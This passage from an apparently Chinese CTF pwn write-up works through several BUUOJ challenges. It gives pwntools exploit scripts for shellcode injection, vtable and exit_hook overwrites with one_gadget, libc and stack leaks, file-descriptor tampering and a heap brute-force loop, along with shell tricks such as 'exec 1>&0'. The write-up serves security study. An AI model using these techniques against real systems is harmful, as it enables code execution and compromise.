call    _ZZ4mainENKUlvE_cvPFvvEEv ; main::{lambda(void)#1}::operator void (*)(void)(void)
mov     rdi, rax        ; void (*)(void)
call    _Z16password_checkerPFvvE ; password_checker(void (*)(void)) ; HERE!!!
mov     [rbp+var_130], rax
mov     edi, offset login ; this
call    _ZN4User13read_passwordEv ; User::read_password(void)
lea     rax, [rbp+var_120]
mov     rdi, rax        ; this
call    _ZN4User12get_passwordEv ; User::get_password(void)
mov     rbx, rax
mov     edi, offset login ; this
call    _ZN4User12get_passwordEv ; User::get_password(void)
mov     rcx, rax
lea     rax, [rbp+var_130]
mov     rdx, rbx
mov     rsi, rcx
mov     rdi, rax
call    _ZZ16password_checkerPFvvEENKUlPKcS2_E_clES2_S2_ ; password_checker(void (*)(void))::{lambda(char const*,char const*)#1}::operator()(char const*,char const*)
mov     eax, 0
```

进入`_Z16password_checkerPFvvE`查看：

```assembly
; __int64 __fastcall password_checker(void (*)(void))
public _Z16password_checkerPFvvE
_Z16password_checkerPFvvE proc near

var_18= qword ptr -18h
var_8= qword ptr -8

; __unwind {
push    rbp
mov     rbp, rsp
mov     [rbp+var_18], rdi
mov     [rbp+var_8], 0
lea     rax, [rbp+var_18]
pop     rbp
retn
; } // starts at 400A79
_Z16password_checkerPFvvE endp

```

可以看到返回值是`[rbp+var_18]`。

由于这几个函数都是`main`的同一级子函数，所以栈的相对位置不会改变，可以在输入密码的时候将`[rbp+var_18]`溢出为shell的地址，从而拿到shell。

## wustctf2020_closed

close（1）关闭了标准输出，close（2）关闭了标准错误，我们只剩下标准输入，并且看到程序会返回shell（0是标准输入，1是标准输出，2是标准错误）。

将标准输出重定向到标准输入即可得到flag。

`exec 1>&0`

## mrctf2020_shellcode_revenge——alphanumeric shellcode

可使用alpha3生成或导入AE64库。

参考链接：http://taqini.space/2020/03/31/alpha-shellcode-gen/#%E7%94%9F%E6%88%90shellcode

```python
def exploit():
   shellcode = asm(shellcraft.sh())
   alpha_shellcode = AE64().encode(shellcode)
   io.send(alpha_shellcode)
```

## hctf2018_the_end——io_file attack

开始打算在libc 2.23的本地伪造vtable，将`setbuf`改为`one_gadget`来getshell，然后gdb调试说确实拿到shell了，但是啥回显也没有。

```python
def exploit():
   io.recvuntil('gift ')
   libc_base = int(io.recv(14), 16) - libc.sym['sleep']
   print(hex(libc_base))
   one_gadget = libc_base + 0xf03a4 # 0x4527a 0xf03a4 0xf1247 0x45226

   stdout = libc_base + libc.symbols["_IO_2_1_stdout_"]
   vtable = stdout + 0xd8
   fake_vtable = stdout + 0x48
   fake_setbuf = stdout + 0xa0
   print(hex(stdout), hex(vtable), hex(fake_vtable), hex(fake_setbuf), hex(one_gadget))

   for i in range(2):
      io.send(p64(vtable+i))
      io.send(p64(fake_vtable)[i:i+1])

   for i in range(3):
      io.send(p64(fake_setbuf+i))
      io.send(p64(one_gadget)[i:i+1])

   io.sendline("cat flag>&0") # failed
```

然后我参考了学长的某篇文章: https://bbs.pediy.com/thread-262459.htm 发现可以修改`_rtld_global`中函数指针`dl_rtld_lock_recursive`，从而实现`exit_hook attack`.

神奇的是，这个方法在远程的2.27可以，在本地的2.23依旧打不通。



```python
def exploit():
   io.recvuntil('gift ')
   libc_base = int(io.recv(14), 16) - libc.sym['sleep']
   print(hex(libc_base))
   one_gadget = libc_base + 0x4f322 # 0x4f2c5 0x4f322 0x10a38c

   _rtld_global = libc_base + 0x619060 # debug
   dl_rtld_lock_recursive_addr = _rtld_global + 0xf08

   for i in range(5):
      io.send(p64(dl_rtld_lock_recursive_addr + i))
      io.send(p64(one_gadget)[i:i+1])

   io.sendline("cat flag >&0")
```

这里还有一种方法，我就没试了：https://blog.csdn.net/Mira_Hu/article/details/103736917

> - 修改`stdout`中`_IO_write_ptr`最后一字节，实现`fp->_IO_write_ptr > fp->_IO_write_base`
> 
> -  修改`stdout`中vtable的倒数第二字节，实现该伪造的`_IO_OVERFLOW`存在libc相关地址
>   
> -  最后修改伪造的`_IO_OVERFLOW`的后三字节为one gadget。
>   
> -  经过这五字节的修改，执行`exit`函数时会最终执行one gadget，获得shell。

## ciscn_2019_n_7——exit_hook attack

libc 2.23与2.27中`exit_hook`偏移

> update on 2022/10/17:
>
> 这里应该是`_rtld_global`

```python
# libc-2.23.so
exit_hook = libc_base + 0x5f0040 + 3848
exit_hook = libc_base + 0x5f0040 + 3856

# libc-2.27.so
exit_hook = libc_base + 0x619060 + 3840
exit_hook = libc_base + 0x619060 + 3848
```


程序本地崩溃，但是exp很简单，可以直接远程无调试打通。

```python
def exploit():
   io.sendline('666')
   io.recvuntil('0x')
   libc_base = int(io.recv(12), 16) - libc.sym['puts']
   log.info('libc_base: ' + hex(libc_base))
   exit_hook = 0x5f0040 + 3848
   one_gadget = 0xf1147

   add(0x18, 'a')
   edit(b'a'*8 + p64(libc_base + exit_hook), p64(libc_base + one_gadget))
   io.sendline('4')
   # exec 1>&0 cat flag
```


## wdb2018_GUESS——fork+libc to stack

这个程序使用了`fork`函数，`fork`的作用是将原程序的内存原封不动地复制给子进程（包括执行流），因此栈地址、libc地址都是不会变的。

当程序修改canary之后会报错退出，并打印程序的路径，我们可以修改这个路径对应的地址(1)来达到一些目的，具体如下：

- 将(1)改为puts.got泄漏libc地址，并得到libc.environ的地址。
- 再将(1)改为libc.environ，泄漏栈上的某个地址(2)。
- 由于flag在栈上，我们可以计算偏移到flag地址，将(1)中的地址改为该地址泄漏flag。

其中(1)(2)均可通过调试得出。

```python
def exploit():
   payload = b'a'*0x128 + p64(elf.got['puts'])
   io.sendline(payload)
   libc_base = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - libc.sym['puts']
   log.success(message='libc_base: ' + hex(libc_base))
   libc_environ = libc_base + libc.sym['environ']
   
   payload = b'a'*0x128 + p64(libc_environ)
   io.sendline(payload)
   stack_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
   log.success(message='stack_addr: ' + hex(stack_addr))
   flag_addr = stack_addr - 0x7ffd64929cc8 + 0x7ffd64929b60

   payload = b'a'*0x128 + p64(flag_addr)
   io.sendline(payload)
```

## ciscn_2019_final_2——modify file descriptor

这个题的沙箱全关，故不能使用orw。

```sh
# junyu33 @ zjy in ~/tmp [11:21:25]
$ seccomp-tools dump ./ciscn_final_2
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x05 0xc000003e  if (A != ARCH_X86_64) goto 0007
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x02 0xffffffff  if (A != 0xffffffff) goto 0007
 0005: 0x15 0x01 0x00 0x0000003b  if (A == execve) goto 0007
 0006: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0007: 0x06 0x00 0x00 0x00000000  return KILL
```


开头有一段改flag的文件描述符的操作：

```c
unsigned __int64 init()
{
  int fd; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  fd = open("flag", 0);
  if ( fd == -1 )
  {
    puts("no such file :flag");
    exit(-1);
  }
  dup2(fd, 666);
  close(fd);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  alarm(0x3Cu);
  return __readfsqword(0x28u) ^ v2;
}
```

我们只需将文件描述符改为`666`即可。

具体的，将`FILE`结构体（见`house of orange`）的`_fileno`项改为`666`

```python
def exploit():
   add(1, 0x30)
   dele(1)
   for i in range(4):
      add(2, 0x20)
   dele(2)
   add(1, 0x1234) # bool
   dele(2)
   show(2)
   
   io.recvuntil('number :')
   heap_low = (int(io.recvline()[:-1]) + 0x10000) & 0xffff
   log.success('heap_low: '+hex(heap_low))
   add(2, heap_low - 0xa0)
   add(2, 0)
   
   dele(1)
   add(2, 0x91)
   for i in range(7):
      dele(1)
      add(2, 0) # bool
   dele(1)
   show(1)

   io.recvuntil('number :')
   libc_low = (int(io.recvline()[:-1]) - libc.sym['__malloc_hook'] - 0x70 + 0x100000000) & 0xffffffff
   log.success('libc_low: '+hex(libc_low))
   stdin = libc_low + libc.sym['_IO_2_1_stdin_'] + 0x70 # here

   add(2, stdin&0xffff) # no tcache
   add(1, 0)
   add(1, 666)
   leave('ok')
```

## actf_2019_babyheap——avoid forking child process

```python
gdb.attach(io, 'set follow-fork-mode parent')
```

## hfctf_2020_marksman——exit_hook attack2

> 参考链接：https://www.cnblogs.com/LynneHuan/p/14687617.html

`exit_hook`的另外一种形式，将`_dl_catch_error@got.plt`修改成`one_gadget`

`one_gadget`加上l参数，如`-l2`，`-l3`查看更多gadget

```python
def exploit():
   io.recvuntil('0x')
   libc_puts = int(io.recv(12), 16)
   libc_base = libc_puts - libc.symbols['puts']
   ogg = [0x4f2c5, 0x4f322, 0xe569f, 0xe5858, 0xe585f, 0xe5863, 0x10a387, 0x10a398]
   one_gadget = libc_base + ogg[2]
   exit_hook = libc_base + 0x5f4038 # _dl_catch_error@got.plt

   io.sendline(str(exit_hook))
   io.sendline(p8(one_gadget&0xff))
   io.sendline(p8((one_gadget>>8)&0xff))
   io.sendline(p8((one_gadget>>16)&0xff))
```

## [OGeek2019 Final]OVM——vm

vm pwn与vm reverse不同的地方在于你不必逆向所有的指令，只需要注意有漏洞的指令（主要为数组越界），然后以这个指令的利用为中心去逆其它用的上的指令就行。不用一股脑的把所有的opcode对应的python函数写好，浪费时间。

本题的0x30 opcode与0x40 opcode存在数组越界，因此可以任意地址读写。由于comment是堆分配的地址，简单的做法是通过stderr获得libc的地址，从而把堆指针改为`__free_hook`，写入`one_gadget`即可。

```python
# reg13 = sp
# reg15 = pc
# 0x10 dest = src0
# 0x30 dest = *src0 
# 0x40 *src0 = dest
# 0x80 dest = src1 - src0
# 0xa0 dest = src1 | src0
# 0xc0 dest = src1 << src0
# 0xff print reg
# opcodes dest src1 src0

code = [
   # leak libc, offset to stderr = -26 
   
   0x100e0008, # r14 = 0x8
   0x1003001a, # r3 = 0x1a
   0x1004001b, # r4 = 0x19

   0x80030703, # r3 = -r3
   0x300c0003, # r12 = mem[r3] # lower addr of stderr

   0x80040704, # r5 = -r5
   0x300b0004, # r11 = mem[r4] # higher addr of stderr
   # write __free_hook to comment, offset = 0x10a8

   0x10030008, # r3 = 0x8
   0x80030703, # r3 = -r3

   0x10050010, # r5 = 0x10
   0x100600a8, # r6 = 0xa8
   0xc005050e, # r5 = r5 << r14
   0xa0050506, # r5 = r5 | r6, so r5 = 0x10a8

   0x80050705, # r5 = -r5
   0x800c0c05, # r12 = 12 - (-r5), so r12 = __free_hook
   
   0x400c0003, # mem[r3] = r12
   0x10030007, # r3 = 0x7
   0x80030703, # r3 = -r3
   0x400b0003, # mem[r3] = r11

   0xff000000 # show
]

def exploit():
   io.sendlineafter('PC: ', '0')
   io.sendlineafter('SP: ', '1')
   io.sendlineafter('SIZE: ', str(len(code)))
   io.recvuntil('CODE: ')
   for i in code:
      io.sendline(str(i))

   io.recvuntil('R11: ')
   free_hookh = int(io.recvline()[:-1], 16)
   io.recvuntil('R12: ')
   free_hookl = int(io.recvline()[:-1], 16)
   libc_base = (free_hookh << 32 | free_hookl) - libc.sym['__free_hook']

   log.info('libc_base: ' + hex(libc_base))
   one_gadget = libc_base + 0x4526a
   io.send(p64(one_gadget))
```

## sctf_2019_one_heap——1/256 probability

思路是double free后控制tcache_perthread_struct，改0x250的cnt后释放本身成为unsorted bin。

重新分配0x40及以上的大小后，main_arena会向下移动到next指针，partial write爆破stdout泄露libc。

最后直接在`__malloc_hook`中写`one_gadget`和`realloc_hook+4`即可。

这个题要同时爆破堆地址和stdout地址，因此概率为1/256，需要写个循环exp脚本，下面是循环部分：

> 2022/10/23：buu 第五页完结撒花*★,°*:.☆(￣▽￣)/$:*.°★* 。

```python
if __name__ == '__main__':
   context(arch='amd64', os='linux')#, log_level='debug')
   elf = ELF(elf_path)
   libc = ELF(libc_path)

   for i in range(256):
      io = process(elf_path)
      log.info('i tries: ' + str(i))

      if(sys.argv.__len__() > 1):
         if sys.argv[1] == 'debug':
            gdb.attach(io, 'b calloc')
         elif sys.argv[1] == 'remote':
            io = remote('node4.buuoj.cn', 27751)
         elif sys.argv[1] == 'ssh':
            shell = ssh('fsb', 'node4.buuoj.cn', 25540, 'guest')
            io = shell.process('./fsb')

      try:
         exploit()
         io.interactive()
      except:
         try:
            io.close()
         except:
            pass
   
```

